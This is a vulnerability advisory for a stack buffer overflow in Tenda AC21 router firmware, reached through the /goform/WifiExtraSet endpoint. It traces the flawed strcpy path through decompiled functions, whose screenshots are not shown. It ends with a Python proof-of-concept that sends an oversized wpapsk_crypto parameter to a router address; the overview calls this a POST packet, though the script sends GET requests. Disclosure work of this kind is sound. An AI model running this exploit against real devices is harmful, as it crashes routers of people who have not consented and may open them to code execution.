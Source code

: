 # CVE-2025-10838

## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## Information



**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Affected products:** AC21

**Affected firmware version:** <= V16.03.08.16

**Firmware download address:** [AC21 升级软件_腾达Tenda官方网站](https://www.tenda.com.cn/material/show/3742)

### Overview

A buffer overflow vulnerability was discovered on the latest version of the Tenda AC21 router, V16.03.08.16, where an attacker sent a well-crafted http post packet to the request path /goform/WifiExtraSet, triggering a denial of service attack or even RCE, specifically via the function strcpy(tkip_aes, tkip_aes_1); because there is no bounds check on tkip_aes, causing a stack overflow

## Vulnerability details

It can be found that the values of the wl_mode and wifi_chkHz are taken here, and if the if judgment is met, you can enter the sub_45CD64 function

![](img/1.png)

When var=1, it will enter the sub_45CAD8 function to perform subsequent operations

![](img/2.png)

Subsequently, it will enter the sub_45BB10 function to execute the subsequent logic

![](img/3.png)

When wpapsk_crypto is not tkip&aes, the strcpy function will be triggered to cause the buffer overflow

![](img/4.png)

## POC

```py
import requests

def generate_overflow_data():
 
    padding = b"X" * 6
    
    exploit_data = padding 
    
    return exploit_data

def execute_overflow(url, data):
    # Prepare malicious request parameters
    attack_params = {
    "wifi_chkHz": "1",
    "wl_mode": "wisp",
    "wl_enbale": "1",        
    "ssid": "123456",
    "wpapsk_key": "1",
    "security": "wpapsk",
    "wpapsk_type": "wpa&wpa2",
    "wpapsk_crypto": b"a"*0x64,
    "mac": data         
}

   

    
    # Send the malicious request twice (as in original)
    server_response = requests.get(url, params=attack_params)
    server_response = requests.get(url, params=attack_params)
  
    
    # Display server response
    print("HTTP Status:", server_response.status_code)
    print("Response Content:", server_response.text)

if __name__ == "__main__":
    # Target endpoint
    target_url = "http://192.168.102.145/goform/WifiExtraSet"
    
    # Generate overflow payload
    malicious_payload = generate_overflow_data()
    
    # Execute the attack
    execute_overflow(target_url, malicious_payload)
```

![](img/5.png)

![](img/6.png)
